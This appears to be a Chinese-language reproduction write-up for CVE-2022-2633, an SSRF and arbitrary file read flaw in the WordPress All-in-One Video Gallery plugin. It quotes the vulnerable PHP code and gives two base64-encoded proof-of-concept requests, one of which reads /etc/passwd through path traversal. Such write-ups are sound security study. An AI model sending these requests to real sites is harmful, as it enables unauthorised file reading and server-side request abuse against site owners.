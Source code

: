 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![image-20221017170543356](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171705476.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![image-20221017170604454](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171706536.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![image-20221017170622056](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171706133.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![image-20221017170640788](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171706868.png)

看向代码最后的片段，则存在任意文件读取漏洞

![image-20221017170655893](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171706975.png)

```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![image-20221017170708523](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171707604.png)